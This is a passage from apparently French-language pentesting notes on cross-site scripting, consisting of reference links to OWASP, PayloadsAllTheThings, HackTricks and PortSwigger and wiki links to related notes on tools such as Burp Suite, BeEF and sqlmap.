- OWASP — XSS Prevention Cheat Sheet : https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html

### Community
- PayloadsAllTheThings — XSS Injection : https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
- HackTricks — XSS : https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting
- PortSwigger — Cross-site scripting : https://portswigger.net/web-security/cross-site-scripting

---

**Liens :** [[Tools| Outils]] · [[Techniques/XSS (Cross-Site Scripting)|XSS]] · [[Techniques/Clickjacking|Clickjacking]] · [[Outil - Burp Suite|Burp Suite]] · [[Outil - BeEF|BeEF]] · [[Outil - sqlmap|sqlmap]] · [[03 - Exploitation Web| Exploitation Web]]
